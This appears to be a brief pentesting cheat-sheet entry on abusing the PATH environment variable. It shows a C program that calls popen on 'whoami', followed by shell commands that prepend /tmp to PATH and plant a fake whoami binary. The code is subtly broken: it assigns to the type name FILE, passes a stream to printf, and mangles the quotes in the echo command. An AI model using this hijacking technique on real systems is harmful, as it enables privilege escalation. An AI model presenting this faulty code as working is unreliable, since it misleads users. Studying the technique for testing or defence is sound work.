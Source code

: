 # Abusing Environment Variables



## PATH

If there is a script that uses a command that relies on PATH we may be able to abuse this by changing the directory of PATH.

```c
#include <stdio.h>

int main() {
    FILE = popen("whoami", "r");
    printf(FILE);
}
```

Create malicious whoami to abuse PATH.

```
export PATH=/tmp:$PATH
echo "printf "root"" >> whoami
chmod +x whoami
whoami
```

